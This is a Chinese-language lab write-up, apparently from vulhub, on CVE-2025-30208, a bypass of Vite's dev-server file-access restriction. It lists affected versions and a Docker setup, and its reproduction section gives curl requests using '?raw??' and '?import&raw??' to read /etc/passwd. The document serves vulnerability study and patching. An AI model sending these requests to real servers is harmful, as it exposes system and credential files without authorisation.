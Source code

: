 # Vite 开发服务器任意文件读取漏洞绕过 CVE-2025-30208

## 漏洞描述

Vite 是一个现代前端构建工具，为 Web 项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用 Rollup 打包代码的构建命令。

在 Vite 6.2.3、6.1.2、6.0.12、5.4.15 和 4.5.10 版本之前，用于限制访问 Vite 服务允许列表之外的文件的 `server.fs.deny` 功能可被绕过。通过在 URL 的 `@fs` 前缀后增加 `?raw??` 或 `?import&raw??`，攻击者可以读取文件系统上的任意文件。

此漏洞发生的原因是，在请求处理过程中尾部分隔符（如 `?`）在多个地方被移除，但在查询字符串正则表达式中没有考虑，导致安全检查被绕过。

这个漏洞是 [CNVD-2022-44615](https://github.com/vulhub/vulhub/blob/master/vite/CNVD-2022-44615/README.zh-cn.md) 补丁的绕过。

参考链接：

- [https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w](https://github.com/vitejs/vite/security/advisories/GHSA-x574-m823-4x7w)
- [https://nvd.nist.gov/vuln/detail/CVE-2025-30208](https://nvd.nist.gov/vuln/detail/CVE-2025-30208)

## 漏洞影响

```
6.2.0 <= Vite <= 6.2.2
6.1.0 <= Vite <= 6.1.1
6.0.0 <= Vite <= 6.0.11
5.0.0 <= Vite <= 5.4.14
Vite <= 4.5.9
```

只有明确将 Vite 开发服务器公开到网络（使用 `--host` 或 `server.host` 配置选项）的应用程序才会受到影响。

## 环境搭建

Vulhub 执行以下命令启动 Vite 6.2.2 开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问 `http://your-ip:5173` 来访问 Vite 开发服务器。

> 注意：旧版本 Vite 的开发服务器默认端口为 3000，新版本默认端口为 5173，请注意区分。

## 漏洞复现

尝试使用标准的 `@fs` 前缀访问 `/etc/passwd`，测试正常访问是否会被限制：

![](images/Vite%20开发服务器任意文件读取漏洞绕过%20CVE-2025-30208/image-20250331091729175.png)

可见，当发送请求到 `http://your-ip:5173/@fs/etc/passwd` 时，你会收到 403 Forbidden 响应，因为这个路径在 Vite 服务的允许范围之外。

通过在 URL 后附加 `?raw??` 或 `?import&raw??`，你就可以绕过这个限制并获取文件内容：

```shell
curl "http://your-ip:5173/@fs/etc/passwd?raw??"

# or
curl "http://your-ip:5173/@fs/etc/passwd?import&raw??"
```

这个请求将会返回 `/etc/passwd` 文件的内容：

![](images/Vite%20开发服务器任意文件读取漏洞绕过%20CVE-2025-30208/image-20250331091806793.png)

![](images/Vite%20开发服务器任意文件读取漏洞绕过%20CVE-2025-30208/image-20250331091939518.png)

## 漏洞修复

目前官方已发布新版本修复该漏洞，下载链接： https://github.com/vitejs/vite/releases

